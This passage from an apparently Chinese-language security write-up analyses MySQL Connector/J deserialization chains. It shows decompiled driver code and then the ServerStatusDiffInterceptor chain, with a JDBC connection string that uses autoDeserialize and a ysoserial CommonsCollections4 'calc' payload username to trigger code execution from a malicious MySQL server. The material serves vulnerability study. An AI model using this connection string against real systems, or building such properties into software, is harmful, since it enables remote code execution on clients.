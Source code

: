     if (customCharset == null && (Boolean)this.getPropertySet().getBooleanReadableProperty("detectCustomCollations").getValue()) {
        customCharset = new HashMap();
        customMblen = new HashMap();
        ValueFactory<Integer> ivf = new IntegerValueFactory();

        PacketPayload resultPacket;
        Resultset rs;
        try {
            //此处不再调用getObject()方法，此链失效
            resultPacket = this.sendCommand(this.commandBuilder.buildComQuery(this.getSharedSendPacket(), "SHOW COLLATION"), false, 0);
            rs = this.protocol.readAllResults(-1, false, resultPacket, false, (ColumnDefinition)null, new ResultsetFactory(Type.FORWARD_ONLY, (Resultset.Concurrency)null));
            ValueFactory<String> svf = new StringValueFactory(rs.getColumnDefinition().getFields()[1].getEncoding());

            Row r;
            while((r = (Row)rs.getRows().next()) != null) {
                int collationIndex = ((Number)r.getValue(2, ivf)).intValue();
                String charsetName = (String)r.getValue(1, svf);
                if (collationIndex >= 2048 || !charsetName.equals(CharsetMapping.getMysqlCharsetNameForCollationIndex(collationIndex))) {
                    ((Map)customCharset).put(collationIndex, charsetName);
                }

                if (!CharsetMapping.CHARSET_NAME_TO_CHARSET.containsKey(charsetName)) {
                    ((Map)customMblen).put(charsetName, (Object)null);
                }
            }
        } catch (PasswordExpiredException var17) {
            if ((Boolean)this.disconnectOnExpiredPasswords.getValue()) {
                throw var17;
            }
        } catch (IOException var18) {
            throw ExceptionFactory.createException(var18.getMessage(), var18, this.exceptionInterceptor);
        }` 

[2.ServerStatusDiffInterceptor链](#toc_2serverstatusdiffinterceptor)
-------------------------------------------------------------------

ServerStatusDiffInterceptor是一个拦截器，在JDBC URL中设置属性queryInterceptors(8.0以下为statementInterceptors)为ServerStatusDiffInterceptor时，执行查询语句会调用拦截器的 preProcess 和 postProcess 方法，进而调用 getObject () 方法。  
连接数据库:

`String url = "jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections4_calc";
String username = "yso_CommonsCollections4_calc";
String password = "";
Class.forName("com.mysql.jdbc.Driver");
conn = DriverManager.getConnection(url,username,password);
String sql = "select database()";
PreparedStatement ps = conn.prepareStatement(sql);
//执行查询操作，返回的是数据库结果集的数据表
ResultSet resultSet = ps.executeQuery();` 
